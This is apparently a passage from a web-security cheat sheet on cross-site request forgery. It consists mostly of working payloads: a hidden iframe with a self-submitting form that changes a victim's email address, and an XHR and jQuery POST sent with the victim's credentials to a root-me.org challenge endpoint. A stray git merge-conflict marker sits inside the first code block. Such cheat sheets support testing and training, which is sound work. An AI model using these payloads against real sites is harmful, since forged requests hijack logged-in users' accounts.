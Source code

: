 ### Form POST request through iframe

```markup
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
>>>>>>> upstream/master
```

### **Ajax POST request**

```markup
<script>
var xh;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xh=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xh=new ActiveXObject("Microsoft.XMLHTTP");
  }
xh.withCredentials = true;
xh.open("POST","http://challenge01.root-me.org/web-client/ch22/?action=profile");
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'); //to send proper header info (optional, but good to have as it may sometimes not work without this)
xh.send("username=abcd&status=on");
</script>

<script>
//JQuery version
$.ajax({
  type: "POST",
  url: "https://google.com",
  data: "param=value&param2=value2"
})
</script>
```
